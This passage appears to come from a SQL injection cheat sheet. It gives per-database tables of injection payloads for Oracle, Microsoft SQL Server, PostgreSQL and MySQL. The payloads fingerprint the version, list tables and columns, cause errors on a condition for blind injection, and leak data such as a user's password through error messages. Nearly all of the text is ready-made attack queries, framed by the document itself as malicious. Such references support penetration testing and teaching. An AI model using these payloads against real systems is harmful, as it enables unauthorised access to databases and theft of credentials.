 You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|   |   |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

|   |   |
|---|---|
|Oracle|`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`|
|Microsoft|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|PostgreSQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|MySQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

|   |   |
|---|---|
|Microsoft|`SELECT 'foo' WHERE 1 = (SELECT 'secret')      > Conversion failed when converting the varchar value 'secret' to data type int.`|
|PostgreSQL|`SELECT CAST((SELECT password FROM users LIMIT 1) AS int)      > invalid input syntax for integer: "secret"`|
|MySQL|`SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))      > XPATH syntax error: '\secret'`|
